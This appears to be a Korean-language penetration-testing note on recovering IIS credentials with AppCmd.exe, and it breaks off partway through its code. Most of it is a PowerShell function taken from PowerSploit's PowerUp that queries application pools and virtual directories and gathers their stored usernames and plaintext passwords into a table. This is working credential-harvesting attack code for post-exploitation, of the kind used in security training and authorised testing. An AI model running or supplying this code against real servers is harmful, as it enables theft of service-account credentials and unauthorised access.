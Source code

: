 **AppCmd.exe에서 비밀번호를 복구하려면 관리자여야 하며 높은 무결성 수준에서 실행해야 합니다.**\
**AppCmd.exe**는 `%systemroot%\system32\inetsrv\` 디렉토리에 위치합니다.\
이 파일이 존재하면 일부 **자격 증명**이 구성되었을 가능성이 있으며 **복구**할 수 있습니다.

이 코드는 [**PowerUP**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)에서 추출되었습니다:
```bash
function Get-ApplicationHost {
$OrigError = $ErrorActionPreference
$ErrorActionPreference = "SilentlyContinue"

# Check if appcmd.exe exists
if (Test-Path  ("$Env:SystemRoot\System32\inetsrv\appcmd.exe")) {
# Create data table to house results
$DataTable = New-Object System.Data.DataTable

# Create and name columns in the data table
$Null = $DataTable.Columns.Add("user")
$Null = $DataTable.Columns.Add("pass")
$Null = $DataTable.Columns.Add("type")
$Null = $DataTable.Columns.Add("vdir")
$Null = $DataTable.Columns.Add("apppool")

# Get list of application pools
Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppools /text:name" | ForEach-Object {

# Get application pool name
$PoolName = $_

# Get username
$PoolUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.username"
$PoolUser = Invoke-Expression $PoolUserCmd

# Get password
$PoolPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.password"
$PoolPassword = Invoke-Expression $PoolPasswordCmd

# Check if credentials exists
if (($PoolPassword -ne "") -and ($PoolPassword -isnot [system.array])) {
# Add credentials to database
$Null = $DataTable.Rows.Add($PoolUser, $PoolPassword,'Application Pool','NA',$PoolName)
}
}

# Get list of virtual directories
Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir /text:vdir.name" | ForEach-Object {

# Get Virtual Directory Name
$VdirName = $_

# Get username
$VdirUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:userName"
$VdirUser = Invoke-Expression $VdirUserCmd

# Get password
$VdirPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:password"
$VdirPassword = Invoke-Expression $VdirPasswordCmd

```